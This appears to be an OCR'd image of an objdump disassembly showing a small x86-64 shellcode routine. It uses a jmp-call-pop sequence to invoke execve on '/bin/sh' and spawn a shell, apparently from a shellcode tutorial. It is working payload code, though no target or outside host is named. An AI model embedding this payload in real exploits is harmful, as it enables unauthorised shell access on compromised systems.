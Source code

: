 00000000004004f1 <needle0>:
  4004f1:	eb 0e                	jmp    400501 <there>

00000000004004f3 <here>:
  4004f3:	5f                   	pop    %rdi
  4004f4:	48 31 c0             	xor    %rax,%rax
  4004f7:	b0 3b                	mov    $0x3b,%al
  4004f9:	48 31 f6             	xor    %rsi,%rsi
  4004fc:	48 31 d2             	xor    %rdx,%rdx
  4004ff:	0f 05                	syscall 

0000000000400501 <there>:
  400501:	e8 ed ff ff ff       	callq  4004f3 <here>
  400506:	2f                   	(bad)  
  400507:	62                   	(bad)  
  400508:	69 6e 2f 73 68 00 ef 	imul   $0xef006873,0x2f(%rsi),%ebp

000000000040050e <needle1>:

